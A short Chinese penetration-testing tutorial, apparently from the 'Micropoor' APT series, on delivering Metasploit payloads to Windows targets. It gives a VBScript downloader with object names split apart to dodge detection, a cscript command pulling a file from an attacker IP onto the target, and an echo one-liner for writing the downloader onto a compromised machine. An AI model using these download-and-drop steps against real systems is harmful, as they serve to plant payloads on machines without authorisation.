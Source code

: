 专注APT攻击与防御
https://micropoor.blogspot.com/

一次msf完整的流程离不开目标机的payload下载与执行。而针对不同环境目标，考虑或者选择不同方式的payload下载与执行。如webshell下，注入点下。smb下等。而针对不同的实际环境，来做最好的选择。

既然本季开始专门针对windows下的payload下载讲解，那么就需要考虑到目标机的系统版本，是windows2000，windows 2003，或者是更高的版本如windows 2016等。

无论是哪个版本的windows系列，都是支持vbs的。

靶机：windows 2003
**vbs：**
保存downfile.vbs
```vbs
set a=createobject("adod"+"b.stream"):set
w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2
```

**命令行下执行：**

`cscript downfile.vbs http://192.168.1.115/robots.txt C:\Inetpub\b.txt`

![](media/7f46749ce580dd58f217f4757f5f6529.jpg)

往往在实战中，没有上传的方便条件，尤其是目标机是windows，只有echo方式来写入vbs。

**命令行下执行：**
```
echo set a=createobject(^"adod^"+^"b.stream^"):set
w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2 >>downfile.vbs
```
**优点：**支持windows全版本系列
**缺点：**对https不友好

>   Micropoor
